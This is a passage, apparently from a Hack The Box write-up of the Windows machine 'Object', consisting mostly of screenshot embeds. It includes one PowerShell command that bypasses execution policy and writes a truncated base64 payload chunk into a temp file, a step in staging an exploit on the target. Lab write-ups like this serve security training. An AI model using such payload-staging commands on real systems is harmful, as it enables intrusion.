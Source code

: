 ![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_22.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }






Our second command will be:\
`cmd.exe /c powershell -NoProfile -ExecutionPolicy Bypass -Command "Add-Content -Path %TEMP%\resource.temp\efspot.b64 -Value IHZvaWQgUm<SNIP>0SGFuZGxl -Encoding ASCII"`

![light mode only](/assets/img/posts/htb/machines/windows/hard/object/object_23.png){: .light .w-100 .shadow .rounded-10 w='1212' h='668' }
![dark mode only](/assets/img/posts/htb/machines/windows/hard/object/object_23.png){: .dark .w-100 .shadow .rounded-10 w='1212' h='668' }
